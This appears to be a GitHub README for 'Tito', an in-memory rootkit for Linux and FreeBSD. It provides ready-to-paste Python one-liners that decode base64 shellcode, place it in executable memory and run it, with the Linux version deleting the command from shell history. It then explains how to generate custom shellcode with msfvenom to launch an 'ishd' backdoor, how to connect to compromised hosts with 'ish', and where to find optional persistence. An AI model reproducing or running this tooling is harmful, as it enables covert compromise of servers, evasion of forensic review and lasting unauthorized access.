 # Tito
A complete In-Memory Rootkit For FreeBSD. On Linux the shell is completely in memory with optional on-disk persistance using an injected library.  

<h2>From Tito to Stalin:</h2>

"Stop sending people to kill me. We’ve already captured five of them, one of them with a bomb and another with a rifle. If you don’t stop sending killers, I’ll send one to Moscow, and I won’t have to send a second."

You can run the entire rootkit from the Linux command-line like so:

```
python3 -c 'import base64, mmap, ctypes; encoded_shellcode = "SDHJSIHp9////0iNBe////9Iu6ajGtSlB5bkSDFYJ0gt+P///+L07hs1tsxpuZfOo4OE8VjEgs6OeYD7VX75pqMa+81o+4GJ03LnlnW5rfXrX5jpKuDUiJE1vdZv8uTw9E6KzzzO66OjGtSlB5bk"; shellcode = base64.b64decode(encoded_shellcode); mem = mmap.mmap(-1, len(shellcode), mmap.MAP_PRIVATE | mmap.MAP_ANONYMOUS, mmap.PROT_WRITE | mmap.PROT_READ | mmap.PROT_EXEC); mem.write(shellcode); addr = ctypes.addressof(ctypes.c_char.from_buffer(mem)); shell_func = ctypes.CFUNCTYPE(None)(addr); print("... and I won’t have to send a second."); shell_func()' && history -d $(history | awk 'END { print $1 }')
```

With FreeBSD, it will depend on the version of python installed. If you have python3.11 you can just use this:

```
python3.11 -c 'import base64, mmap, ctypes; encoded_shellcode = "SDHJSIHp+P///0iNBe////9Iu67h2fdth+YDSDFYJ0gt+P///+L05tALH0+H5gOBibaaCKiWa53Sq9gZ7pJsgaiKvyjLqi7Y0ffEQu6Va8rhhqU6z2/l5tAZv+5P3Qyr4dn3bYfmAw=="; shellcode = base64.b64decode(encoded_shellcode); mem = mmap.mmap(-1, len(shellcode), mmap.MAP_PRIVATE | mmap.MAP_ANONYMOUS, mmap.PROT_WRITE | mmap.PROT_READ | mmap.PROT_EXEC); mem.write(shellcode); addr = ctypes.addressof(ctypes.c_char.from_buffer(mem)); shell_func = ctypes.CFUNCTYPE(None)(addr); print("...and I will not have to send a second."); shell_func()' 2>/dev/null
```

The path to binary here in these examples is hardcoded, but you may go into the ISHELL-v0.3 folder and type 'make linux' or 'make bsd' to build ish and ishd. Then you can make your own shellcode like this:

```
msfvenom -p linux/x64/exec CMD=/path/to/ishd -f c -b "\x00\x0a\x0d" > shellcode.txt
```

You can parse out only the shellcode and base64 encode it like this:

```
grep '"' shellcode.txt | tr "\n" " " | sed -e 's/\" \"//g;s/\"//g;s/;//g'&& echo " " | base64
```

Then you may run ish with the ip of the device the rootkit was ran on to connect.

Currently tested on x86_64 Debian Trixie and FreeBSD 14.1

People from HardenedBSD have reported the shell here will also work with libhijack to add persistance. That utility will load a Shared Library in memory making this a complete In-Memory rootkit for BSD if you choose. 

Previously I did not include persistance with Linux as 1. - Persistance would require writing to disk and 2. - Many servers remain up thousands of days without a reboot making it pointless. In the optional-persistnace you may now find an additional README file to deploy this feature if you choose.
